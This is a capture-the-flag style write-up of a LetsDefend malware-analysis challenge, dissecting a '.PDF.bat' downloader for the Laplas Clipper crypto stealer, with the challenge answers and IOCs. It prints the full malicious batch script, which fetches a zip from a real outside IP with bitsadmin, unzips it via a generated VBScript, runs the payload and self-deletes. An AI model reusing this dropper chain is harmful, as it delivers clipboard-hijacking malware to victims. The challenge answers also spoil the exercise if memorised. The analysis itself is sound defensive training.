

# 📥 Batch Downloader — LetsDefend Challenge

| | |
|---|---|
| **Platform** | [LetsDefend](https://app.letsdefend.io/challenge/batch-downloader) |
| **Category** | Malware Analysis |
| **Difficulty** | Easy |
| **Status** | ✅ Solved (8/8) |
| **Malware family** | Laplas Clipper |

---

## 🎯 Scenario

> A malicious batch file has been discovered that downloads and executes files
> associated with the Laplas Clipper malware. Analyze this batch file to understand
> its behavior and help us investigate its activities.

- **File:** `challenge.7z` → `FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.bat`

---

## 🧰 Tools used

- **7-Zip** — extract the archived sample
- **Notepad++** — read the `.bat` file (never execute the sample)

---

## 🔬 Analysis workflow

The sample is delivered inside `challenge.7z`. Extracting it reveals a batch file
with a deceptive double extension (`.PDF.bat`) — it looks like a PDF but is a script.

### Decoded batch script

```bat
@echo off
bitsadmin /transfer System /Download /Priority FOREGROUND http://193.169.255.78/FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip %TEMP%\...zip
setlocal
cd /d %~dp0
Call :UnZipFile "%TEMP%" "%TEMP%\FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip"
cd /d "%TEMP%"
start "" "FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe"
del %~s0 /q

:UnZipFile <ExtractTo> <newzipfile>
set vbs="%TEMP%\_.vbs"
...
>%vbs%  echo Set fso = CreateObject("Scripting.FileSystemObject")
>>%vbs% echo set objShell = CreateObject("Shell.Application")
>>%vbs% echo set FilesInZip=objShell.NameSpace(%2).items
>>%vbs% echo objShell.NameSpace(%1).CopyHere(FilesInZip)
...
cscript //nologo %vbs%
```

### Behaviour
1. `bitsadmin` downloads a fake `PDF.zip` from `193.169.255.78`.
2. The script writes a temporary **VBScript** (`_.vbs`) and runs it with `cscript`
   to unzip the archive.
3. It launches the extracted `PDF.exe` (the actual **Laplas Clipper** payload).
4. It self-deletes (`del %~s0 /q`) to remove evidence.



---

## ❓ Questions & Answers

| # | Question | Answer |
|---|----------|--------|
| 1 | Command to prevent command echoing? | `@echo off` |
| 2 | Tool used to download a file from a URL? | `bitsadmin` |
| 3 | Priority set for the download operation? | `FOREGROUND` |
| 4 | Command to start localization of environment changes? | `setlocal` |
| 5 | IP address used by the malicious code? | `193.169.255.78` |
| 6 | Subroutine called to extract the zip contents? | `UnZipFile` |
| 7 | Command that starts the extracted executable? | `start "" "FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe"` |
| 8 | Scripting language used to extract the zip? | `VBScript` |

---

## 📝 Summary / Lessons learned

- **Double extensions deceive users:** `FW-...PDF.exe` looks like a PDF but is an
  executable — a classic social-engineering trick.
- **LOLBins (Living off the Land Binaries):** `bitsadmin` is a legitimate Windows
  tool abused to download the payload, blending in with normal activity.
- **On-the-fly VBScript:** the batch writes and runs a temporary `.vbs` via `cscript`
  to unzip — no external unzip tool needed.
- **Anti-forensics:** the script deletes itself (`del %~s0`) after execution.
- **Downloader chain:** download → unzip → execute → self-delete, dropping the
  Laplas Clipper (a clipboard-hijacking crypto stealer).

### Indicators of Compromise (IOCs)

| Type | Value |
|------|-------|
| C2 / download IP | `193.169.255.78` |
| Payload URL | `http://193.169.255.78/FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip` |
| Dropped file | `FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe` |
| Malware family | Laplas Clipper |
